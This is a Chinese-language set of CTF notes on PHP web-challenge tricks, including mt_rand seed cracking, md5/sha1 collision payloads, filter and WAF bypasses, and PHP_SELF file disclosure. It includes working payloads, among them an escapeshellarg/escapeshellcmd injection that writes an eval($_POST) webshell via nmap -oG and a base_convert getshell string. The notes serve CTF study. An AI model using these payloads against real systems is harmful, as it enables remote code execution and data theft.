

## mt_rand破解

[buu 枯燥的抽奖](https://buuoj.cn/challenges#[GWCTF%202019]%E6%9E%AF%E7%87%A5%E7%9A%84%E6%8A%BD%E5%A5%96)

利用工具php_mt_seed, 可以根据获取的随机数的值反推种子

用法
```bash
# 通过第一次运行的精确值获取种子
./php_mt_seed first_mt_rand_result #(如1684924762)
# 通过第一次运行的值的区间获取符合要求的种子
./php_mt_seed min max # ./php_mt_seed 1684924762 1684924762 相当于 ./php_mt_seed 1684924762
# 指定第一次运行的值的区间 (min max)同时指定 mt_rand 的区间(MIN MAX)（如php代码中通过mt_rand(0, 10)获取0-10范围内的随机数）
./php_mt_seed min max MIN MAX

# 指定多次运行的结果
./php_mt_seed (min max MIN MAX) (min max MIN MAX) (min max MIN MAX) (min max MIN MAX)
```

```php
srand(12328322);
echo mt_rand();
```
执行./php_mt_seed 1684924762
得到结果
成功破解，不同版本的php结果不一样， 验证时注意版本！！

```php
mt_srand(75930597);
for($i=0;$i<10;$i++){
	echo mt_rand(0, 61)." ";
}
```


## mb_strpos和mb_substr行为不一致
`%9f`, mb_strpos会忽略, 而mb_substr不会
`%f0abc`，mb_strpos认为是4个字节，mb_substr认为是1个字节
`%f0%9fab`,mb_strpos认为是3个字节，mb_substr认为是1个字节，相差2个字节
`%f0%9f%9fa`,mb_strpos认为是2个字节，mb_substr认为是1个字节，相差1个字节
## preg_match

php中preg_match匹配结尾允许有一个换行符，可以理解为\$会匹配一个换行符,但是不会放到\$matches里面
```php
<?php
$subject = "a\n";
preg_match('/^a$/', $subject, $matches);
var_dump($matches);
```
这里的preg_match会匹配成功，结果是`string(1) "a"`

但是如果有多个`\n`,则无法匹配.
```php
<?php
$subject = "a\n\n";
preg_match('/^a$/', $subject, $matches);
var_dump($matches);
```
`$matches`是空数组

## others
1. `$_GET{1}`会抛出警告，在vscode中报syntax error，但是也能够运行、使用

<span id="参数名被过滤"></span>
## 参数名被过滤

传递参数时，参数前的空格和‘+’会被删除，参数中的特殊字符会被替换成下划线，参数后的null字符会被删除，处理完之后php才会将其保存在数组中。有时需要传递的参数名被过滤，此时可以传递等价参数。
![[../images/php变量保存替换非法字符.png]]
(可能有的字符现在已经不会被替换了，如+)

如果要传递的参数中有`.`等非法字符时，比如`show_show.show`,可以传递`show[show.show`,遇到中括号并且转化以后就不会继续往后转化了.(php_version < 8)

<span id="过滤特殊字符"></span>
## 过滤特殊字符
可以使用system(chr(60).chr(63).chr(61).chr(64).chr(101).chr(118).chr(97))
这种形式绕过

system等命令函数被禁止使用时（可能在配置文件中偷偷设置），可以用scandir函数代替ls，用file_get_contents代替cat

## md5

1. 弱类型比较时，用0e开头的md5即可：
	QNKCDZO    240610708
2. 强类型比较（弱类型比较也可以用），可以用数组绕过的方法：
	因为对数组进行md5，只是警告，不会抛出错误，返回NULL，因此两个参数都传递数组即可。
	
	或payload
	a. ```psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%A4%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%02%7E%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%04%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEc%C3%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%3C%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%9959%F9%FF%C2```
	b.
	```psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%24%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%82%7D%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%84%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEcC%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%BC%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%99%B59%F9%FF%C2```
	或
	m.
	```M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2```
	n.
	```M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2```
	sha1强碰撞例子:
	s.
	```%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1```
	d.
	```%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1```

例：
```php
<?php  
error_reporting(0);  
include "flag.php";  if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){ 
    echo $flag;  
}
```
传递?param1[0]=0&param2[0]=2

3. NAN
两个NAN不能比较（弱类型就不相等）, 但是md5值（转为string）之后是一样的
只在比较反序列化后的数据时有用，不然只能传字符串"NAN"

其实反序列化时可以用 1 和 '1'

4. Error、Exception类
注意要写在同一行
```php
$a = new Error('a'); $b = new Error('a');
```

## escapeshellarg、escapeshellcmd
[题目链接 buu oneline tool](https://buuoj.cn/challenges#[BUUCTF%202018]Online%20Tool)
```php
<?php
$host = $_GET['host'];
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
```
payload = ```' <?php eval($_POST["cmd"]);?> -oG 1.php '```

-oG是nmap的参数,用于日志记录
最终1.php中结果
```php
# Nmap 7.70 scan initiated Thu Jan 23 03:31:11 2025 as: nmap -T5 -sT -Pn --host-timeout 2 -F -oG 2.php \ <?php eval($_POST[a]);?> \\
# Nmap done at Thu Jan 23 03:31:11 2025 -- 0 IP addresses (0 hosts up) scanned in 0.06 seconds
```

escapeshellarg后, host = ```''\'' <?php eval($_POST["a"]);?> -oG 1.php '\'''```
其中```'```变成了```\'```之后再在两边加上引号```'\''```,最后在整个字符串外边加上```''```

escapeshellcmd后, host = ```''\\'' \<\?php eval\(\$_POST\["a"\]\)\;\?\> -oG 1.php '\\'''```, 被传入system函数中当做命令执行, ```''```是空字符```\\```转义成```\```, ```\<```转义成```<```,其他同理.
最后写入1.php中的内容是:
```\ <?php eval($_POST[a]);?> \\```

## hex2bin
hex2bin不是把16进制变成2进制数值，而是变成字符串
比如`hex2bin(73797374656d)`结果是system
bin2hex同理

## base_convert
可以通过十进制与36进制的转化得到0-9a-z中的任意字符
如`base_convert(1751504350,10,36)`得到system

尽管eval中只能使用数学函数，仍然可以getshell
### payload
```$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{1}($$pi{2})```
\$pi是```_GET```

## $_REQUEST

这个变量中存储了包括GET、POST的变量，可能还有Cookie(默认不包括)

按照ini_get('request_order')的配置（默认为GP）
这个设置指示了PHP 将 GET、POST 和 Cookie 变量注册到 _REQUEST 数组中的顺序。
注册是从左到右完成的，新值覆盖旧值。

当GET、POST变量重名时，GET的变量会被POST变量覆盖

由此可以绕过waf：(当仅需用GET变量时)
```php
function waf1(){
    foreach ($_REQUEST as $name => $value) {
        if(preg_match('/[a-z]/i', $value)){
            exit("waf1");
        }
    }
}
```

## $_SERVER['QUERY_STRING']

即使在burpsuite里面访问`/?a=1%2b1`，$_SERVER['QUERY_STRING']的值都会是`a=1%2b1`,即完全不解码.而\$_GET数组里的a会是1+1.
由于二者的不一致性

## $_SERVER['PHP_SELF']

比如 `http://localhost/index.php` 下代码
```php
<?php
highlight_file(basename($_SERVER['PHP_SELF']))
```
可以通过访问`http://localhost/index.php/flag.php`
获取同目录下的`flag.php`

这是由于浏览器解析到`index.php`之后就不把后面的路径当做服务的路径了,而是当做`PATH_INFO`
而`$_SERVER['PHP_SELF']`的值会是`/index.php/flag.php`, 所以highlight的是flag

## basename
[文章](https://www.cnblogs.com/yesec/p/15429527.html)

会忽略文件名开头的不可见字符,并且如果最后的结果只有中文或者不可见字符, 会往前一个目录

代码
```php
<?php
$file = $_GET['file'];
echo $file."</Br>";
echo basename($file);
```
测试
```
http://localhost/?file=%ffindex.php/%ff
//index.php
http://localhost/?file=index.php/任意中文
//index.php
```

php版本8.1.2似乎已经被修复

## date函数
通过转义可以生成任何字符串
```php
date(preg_replace('/(.)/', '\\\\$1',  "/flag"));
```

